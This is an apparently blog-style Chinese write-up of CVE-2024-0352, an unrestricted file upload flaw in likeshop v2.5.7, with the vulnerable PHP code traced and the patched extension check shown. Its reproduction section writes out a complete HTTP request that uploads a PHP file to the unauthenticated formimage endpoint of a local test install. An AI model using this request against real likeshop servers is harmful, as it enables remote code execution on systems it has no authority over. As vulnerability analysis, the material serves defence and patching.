







likeshop v2.5.7 文件上传漏洞分析 (CVE-2024-0352)

- - -

# likeshop v2.5.7 文件上传漏洞分析 (CVE-2024-0352)

## 简介

linkshop 是围绕电商交易领域打造新时代的开源商城系统，开源免费版基于 thinkPHP 开发。开源版在 gitee 有 2.9k star

回顾一下 thinkPHP 的审计，正好 likeshop 存在文件上传（CVE-2024-0352），网上绝大部分都是复现，所以在这里简单分析一下

**漏洞详情**

Likeshop up to 2.5.7.20210311 存在一处安全漏洞，被分类为严重级别。该漏洞影响 HTTP POST 请求处理组件的 file server/application/api/controller/File.php 的函数 FileServer::userFormImage。攻击者可以通过对参数 file 的篡改来实现未受限的文件上传。

**影响版本**：**Up to (including) 2.5.7.20210311**

## 环境搭建

下载[https://github.com/likeshop-github/likeshop/releases/tag/2.5.7](https://github.com/likeshop-github/likeshop/releases/tag/2.5.7)

**安装**

```plain
cd server
composer install
php think run
```

访问[http://127.0.0.1:8000](http://127.0.0.1:8000/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126172406-a70b5c54-bc2c-1.png)

一路安装即可

## 漏洞复现

触发点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126172435-b89bb798-bc2c-1.png)

抓包

```plain
POST /api/file/formimage HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
token: xxxx
Content-Type: multipart/form-data; boundary=---------------------------348900489633202294591557761619
Content-Length: 250
Origin: http://127.0.0.1:8000
Connection: close
Referer: http://127.0.0.1:8000/mobile/pages/bundle/user_profile/user_profile
Cookie: PHPSESSID=xxxx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------348900489633202294591557761619
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------348900489633202294591557761619--
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126172503-c94d8f94-bc2c-1.png)

访问回显地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126172521-d420350c-bc2c-1.png)

## 漏洞分析

根据"上传文件成功"进行定位

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126172541-dfccf764-bc2c-1.png)

server\\application\\api\\controller 的 File.php 文件，路由/api/file/formimage

```plain
public $like_not_need_login = ['formImage','test'];
/**
     * showdoc
     * @catalog 接口/上传文件
     * @title form 表单方式上传图片
     * @description 图片上传
     * @method post
     * @url /file/formimage
     * @return param name string 图片名称
     * @return param url string 文件地址
     * @remark
     * @number 1
     * @return {"code":1,"msg":"上传文件成功","data":{"url":"http:\/\/likeb2b2c.yixiangonline.com\/uploads\/images\/user\/20200810\/3cb866f6bb30b7239d91582f7d9822d6.png","name":"2.png"},"show":0,"time":"0.283254","debug":{"request":{"get":[],"post":[],"header":{"content-length":"103132","content-type":"multipart\/form-data; boundary=--------------------------206668736604428806173438","connection":"keep-alive","accept-encoding":"gzip, deflate, br","host":"www.likeb2b2c.com:20002","postman-token":"1f8aa4dd-f53c-4d12-98b4-8d901ac847db","cache-control":"no-cache","accept":"*\/*","user-agent":"PostmanRuntime\/7.26.2"}}}}
     */
public function formImage()
{
    // 这里
    $data = FileServer::userFormImage($this->user_id);
    $this->_success($data['msg'], $data['data'], $data['code']);
}
```

进入 userFormImage 方法，server\\application\\common\\server\\FileServer.php

```plain
/**
     * Notes: 用户上传图片
     * @param $user_id (用户 ID)
     * @param string $save_dir (保存目录，不建议修改，不要超二级目录)
        ...
     */
public static function userFormImage($user_id = 0, $save_dir='uploads/user')
{
    try {
        // 获取存储配置信息
        $config = [
            'default' => ConfigServer::get('storage', 'default', 'local'),
            'engine'  => ConfigServer::get('storage_engine')
        ];

        if (empty($config['engine']['local'])) {
            $config['engine']['local'] = [];
        }
        // 一个用于处理文件上传的驱动类
        $StorageDriver = new StorageDriver($config);
        // 设置上传文件的字段名为 'file'。这表示表单中的文件字段名为 'file'
        $StorageDriver->setUploadFile('file');
        // 上传失败抛出异常
        if (!$StorageDriver->upload($save_dir)) {
            throw new Exception('图片上传失败' . $StorageDriver->getError());
        }

        // 如果文件上传成功，获取上传文件的文件名 $fileName 和文件信息 $fileInfo
        // 图片上传路径
        $fileName = $StorageDriver->getFileName();
        // 图片信息
        $fileInfo = $StorageDriver->getFileInfo();

        // 将上传的图片插入数据库中
        // 记录图片信息
        $data = [
            'user_id'     => $user_id ? $user_id : 0,
            'name'        => $fileInfo['name'],
            'type'        => File::type_image,
            'uri'         => $save_dir . '/' . str_replace("\\","/", $fileName),
            'create_time' => time(),
        ];
        Db::name('user_file')->insert($data);

        // 获取文件的 URL
        $result['url'] = UrlServer::getFileUrl($data['uri']);
        $result['base_url'] = $data['uri'];
        $result['name'] = $data['name'];

        // 返回一个成功的响应，包含上传文件成功的消息和结果数组
        return self::dataSuccess('上传文件成功', $result);

    } catch (\Exception $e) {
        $message = lang($e->getMessage()) ?? $e->getMessage();
        return self::dataError('上传文件失败:' . $message);
    }
}
```

具体含义标注在代码当中，先查看这句

```plain
$StorageDriver->setUploadFile('file');
```

StorageDriver 的 setUploadFile 方法，来到 Driver.php

```plain
/**
     * 设置上传的文件信息
     * @param string $name
     * @return mixed
     */
public function setUploadFile($name = 'iFile')
{
    return $this->engine->setUploadFile($name);
}
```

这里的 engine 指的是当前存储引擎，包含下面 5 个抽象类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126172611-f18f1c7a-bc2c-1.png)

这里将文件保存在本地服务器，查看 Server.php 的 setUploadFile 方法

```plain
/**
     * 设置上传的文件信息
     * @param string $name
     * @throws Exception
     */
public function setUploadFile($name)
{
    // 接收上传的文件
    $this->file = request()->file($name);
    if (empty($this->file)) {
        throw new Exception('未找到上传文件的信息');
    }
    // 文件信息
    $this->fileInfo = $this->file->getInfo();
    // 生成保存文件名
    $this->fileName = $this->buildSaveName();
}
```

单纯接收文件并获取文件信息，无过滤

继续查看 StorageDriver 的 upload 方法

```plain
/**
     * 执行文件上传
     * @param $save_dir (保存路径)
     * @return mixed
     */
public function upload($save_dir)
{
    return $this->engine->upload($save_dir);
}
```

这里也没有对上传的文件进行任何限制，最后将文件的路径返回至前端，导致 RCE

## 漏洞修复

在修复的版本中，Server.php 中进行了文件名的限制

```plain
/**
     * 设置上传的文件信息
     * @param string $name
     * @throws Exception
     */
public function setUploadFile($name)
{
    // 接收上传的文件
    $this->file = request()->file($name);
    if (empty($this->file)) {
        throw new Exception('未找到上传文件的信息');
    }
    // 校验文件
    $validate = (new Upload());
    if (!$validate->check(['file' => request()->file($name)])){
        throw new Exception($validate->getError());
    }
    // 文件信息
    $this->fileInfo = $this->file->getInfo();
    // 生成保存文件名
    $this->fileName = $this->buildSaveName();
}
```

这里校验文件处 new 了一个 Upload 对象，该对象内容如下

```plain
class Upload extends Validate
{

    protected $rule = [
        'file' => 'fileExt:jpg,jpeg,gif,png,bmp,tga,tif,pdf,psd,avi,mp4,mp3,wmv,mpg,mpeg,mov,rm,ram,swf,flv,pem',
    ];

    protected $message = [
        'file.fileExt' => '该文件类型不允许上传',
    ];

}
```

这里定义了文件后缀名，而 Upload 类继承了 thinkphp 中的 Validate 类，check 方法如下

```plain
/**
     * 数据自动验证
     * @access public
     * @param  array     $data  数据
     * @param  mixed     $rules  验证规则
     * @param  string    $scene 验证场景
     * @return bool
     */
public function check($data, $rules = [], $scene = '')
{
    $this->error = [];

    if (empty($rules)) {
        // 读取验证规则
        $rules = $this->rule;
    }

    // 获取场景定义
    $this->getScene($scene);

    foreach ($this->append as $key => $rule) {
        if (!isset($rules[$key])) {
            $rules[$key] = $rule;
            unset($this->append[$key]);
        }
    }

    foreach ($rules as $key => $rule) {
        // field => 'rule1|rule2...' field => ['rule1','rule2',...]
        if (strpos($key, '|')) {
            // 字段|描述 用于指定属性名称
            list($key, $title) = explode('|', $key);
        } else {
            $title = isset($this->field[$key]) ? $this->field[$key] : $key;
        }

        // 场景检测
        if (!empty($this->only) && !in_array($key, $this->only)) {
            continue;
        }

        // 获取数据 支持多维数组
        $value = $this->getDataValue($data, $key);

        // 字段验证
        if ($rule instanceof \Closure) {
            $result = call_user_func_array($rule, [$value, $data, $title, $this]);
        } elseif ($rule instanceof ValidateRule) {
            //  验证因子
            $result = $this->checkItem($key, $value, $rule->getRule(), $data, $rule->getTitle() ?: $title, $rule->getMsg());
        } else {
            $result = $this->checkItem($key, $value, $rule, $data, $title);
        }

        if (true !== $result) {
            // 没有返回true 则表示验证失败
            if (!empty($this->batch)) {
                // 批量验证
                if (is_array($result)) {
                    $this->error = array_merge($this->error, $result);
                } else {
                    $this->error[$key] = $result;
                }
            } else {
                $this->error = $result;
                return false;
            }
        }
    }

    return !empty($this->error) ? false : true;
}
```

因此，这里成功对上传的文件进行了校验

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126172636-00df4e7a-bc2d-1.png)

## 参考

[https://avd.aliyun.com/detail?id=AVD-2024-0352](https://avd.aliyun.com/detail?id=AVD-2024-0352)
